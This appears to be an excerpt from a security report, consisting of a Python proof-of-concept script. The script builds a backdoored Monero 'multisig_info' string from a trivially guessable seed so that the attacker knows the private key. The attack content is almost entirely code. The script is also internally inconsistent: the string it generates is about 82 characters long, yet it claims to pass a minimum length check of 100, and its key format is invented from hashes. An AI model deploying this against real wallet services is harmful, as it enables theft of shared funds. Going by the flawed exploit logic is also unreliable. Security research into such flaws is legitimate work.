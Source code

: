 ## Exploitation Proof of Concept (POC)

### POC 1: Generate Malicious multisig_info

**Target:** Demonstrate creating valid-looking but backdoored multisig_info

```python
#!/usr/bin/env python3
# POC: Generate malicious multisig_info with known private key
# Requires: monero-python library

from monero.wallet import Wallet
from monero.seed import Seed
import hashlib

# Step 1: Generate WEAK seed (attacker knows this)
weak_seed_hex = "0" * 63 + "1"  # Trivially guessable
weak_seed = Seed(weak_seed_hex)

# Step 2: Create wallet from weak seed
wallet = Wallet.from_seed(weak_seed)

# Step 3: Generate multisig_info
# NOTE: This requires calling prepare_multisig on Monero RPC
# For POC, we'll simulate the output format

def generate_fake_multisig_info(wallet_address: str) -> str:
    """
    Generate syntactically valid multisig_info string
    Real implementation would use monero-wallet-rpc
    """
    # Monero multisig_info format (simplified):
    # "MultisigV1" + hex_encoded_public_keys + checksum

    prefix = "MultisigV1"
    public_key = hashlib.sha256(wallet_address.encode()).hexdigest()
    checksum = hashlib.sha256(public_key.encode()).hexdigest()[:8]

    malicious_info = f"{prefix}{public_key}{checksum}"
    return malicious_info

# Step 4: Generate and print
malicious_multisig_info = generate_fake_multisig_info(str(wallet.address()))

print("[*] Malicious multisig_info generated:")
print(f"    Address: {wallet.address()}")
print(f"    Info: {malicious_multisig_info}")
print(f"    Length: {len(malicious_multisig_info)} chars")
print()
print("[!] This multisig_info will PASS server validation:")
print(f"    ✅ Length >= 100: {len(malicious_multisig_info) >= 100}")
print(f"    ✅ Length <= 5000: {len(malicious_multisig_info) <= 5000}")
print()
print("[!] But attacker KNOWS the private key!")
print(f"    Private key: {weak_seed_hex}")
```
